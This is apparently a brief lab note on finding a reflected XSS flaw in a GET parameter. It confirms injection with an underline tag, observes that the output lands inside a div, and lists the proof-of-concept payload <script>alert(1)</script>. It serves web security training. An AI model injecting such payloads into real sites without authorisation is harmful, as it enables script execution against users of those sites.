

# XSS - Reflected (GET)

## Process:
```plaintext
-------------------------------------------------------------------------
1. Check the endpoints if it is vulnerable if you add any normal html tag
2. Use <u>hello1</u>
3. It is the output as underline format 
```


```plaintext
-------------------------------------------------------------------------
4. The output is in the dir tag so we can use the anyother tag into this

```

## Payloads:

```js
<script>alert(1)</script>
```

